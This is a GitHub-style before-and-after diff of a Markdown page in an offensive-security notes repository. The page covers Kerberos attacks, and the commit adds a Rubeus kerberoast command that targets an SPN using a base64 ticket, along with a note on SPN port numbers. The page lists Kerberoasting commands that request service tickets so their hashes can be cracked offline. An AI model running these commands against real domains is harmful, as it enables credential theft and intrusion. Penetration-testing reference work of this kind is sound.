

Before and after one commit to ville87/offsec, a Markdown page: Windows/kerberos_attacks.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Windows/kerberos_attacks.md
+++ b/Windows/kerberos_attacks.md
@@ -36,7 +36,8 @@ PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -A
 ### From Windows
 Against single user using Rubeus.exe:
 `.\Rubeus.exe kerberoast /user:svc_mssql /nowrap`
-`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3`
+Against single SPN, using base64 kirbi which was obtained via asktgt (Note: portnumber in spn - e.g. MSSQLSvc/server1.lab.local,1433 - seems to break Rubeus):
+`.\Rubeus.exe kerberoast /spn:"SPN" /nowrap /domain:windomain.local /dc:10.0.2.3 /ticket:doIFMD[...]`
 
 Using native PowerShell:
 ```powershell
````
